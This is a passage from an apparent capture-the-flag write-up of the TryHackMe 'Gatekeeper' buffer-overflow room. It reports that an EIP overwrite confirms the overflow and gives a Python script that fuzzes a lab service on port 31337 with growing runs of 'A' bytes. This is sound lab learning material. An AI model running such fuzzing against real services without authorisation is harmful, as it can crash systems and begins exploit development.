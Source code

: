 <img src="/assets/images/THM/Gatekeeper/3.png" width="80%">

The program crashed after sending to it 3002 bytes and we can see that the **EIP** is `41414141` which is `AAAA`. So, we proved the buffer overflow vulnerability.

Next we need to get to know how many bytes are needed to crash the app.

```python
#!/usr/bin/env python3

import socket, sys, time

ip = "10.211.55.3"
port = 31337
timeout = 5

# Creating buffers with different amounts of A's
buffer = []
counter = 100
while len(buffer) < 20:
  buffer.append(b"A" * counter)
  counter += 100

# Fuzzing
for string in buffer:
  try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(timeout)
    s.connect((ip, port))
    print("Fuzzing with %s bytes" % len(string))
    s.send(string + b"\r\n")
    s.recv(1024)
    s.close()
  except:
    print("Could not connect to " + ip + ":" + str(port))
    sys.exit(0)
  time.sleep(1)
```
